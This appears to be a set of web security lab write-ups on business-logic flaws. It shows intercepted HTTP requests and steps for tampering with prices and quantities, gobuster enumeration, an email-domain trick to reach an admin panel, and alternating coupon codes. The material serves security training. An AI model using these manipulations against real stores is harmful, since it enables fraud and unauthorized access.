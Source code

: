 # Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=1&redir=PRODUCT&quantity=1
```

Notice that there is not ``price`` parameter but there is ``quantity`` try to put it with negative:

```url
productId=1&redir=PRODUCT&quantity=-1
```
notice that the price also became negative

![image](https://github.com/user-attachments/assets/b198bffa-1368-4b26-b5c1-5901bdd4fc4f)

if you click ``place order`` this error appear

```http
Cart total price cannot be less than zero
```

> ### now try to shoose sheap product and add it more than one time with negative and add the wanted product just one time with positive:

![image](https://github.com/user-attachments/assets/4a57f6fa-320e-400f-9596-54e2305cf0f3)


  
</details>










<details>
  <summary>Lab: Inconsistent security controls</summary>

1. after doing enumration

```
gobuster dir -u https://0a4800b704e8549d827179ca0018004d.web-security-academy.net -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt 
```
![image](https://github.com/user-attachments/assets/25a10fc0-e937-49c5-9888-c7c06a2ce3b5)

2. try to navigate ``/amdin`` found

![image](https://github.com/user-attachments/assets/ae0455f2-bc54-4b03-ada3-65bfddb111bf)

```
Admin interface only available if logged in as a DontWannaCry user 
```

3. when rigester found this note

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

4. after rigester change ``email`` to ``anyname@dontwannacry.com``

![image](https://github.com/user-attachments/assets/e42e3404-ed42-4b35-b3f6-00c66de07a09)
  
6. now you have acccess to ``/admin``
7. delete ``carlos``

  
</details>








<details>
  <summary>Lab: Flawed enforcement of business rules</summary>


1. login using ``wiener:peter``
2. noties that there is coupon code

![image](https://github.com/user-attachments/assets/33b61cbd-4518-483e-aa65-708598452798)

```
NEWCUST5
```

3. At the bottom of the page, sign up to the newsletter. You receive another coupon code, ``SIGNUP30``.
> ### 4. try applying the codes more than once. Notice that if you enter the same code twice in a row, it is rejected because the coupon has already been applied. However, if you alternate between the two codes, you can bypass this control. 

![image](https://github.com/user-attachments/assets/e559ab83-5443-4e58-a997-690205f73749)

5. click ``place order``


  
</details>














<details>
  <summary>Lab: Low-level logic flaw</summary>
</details>
































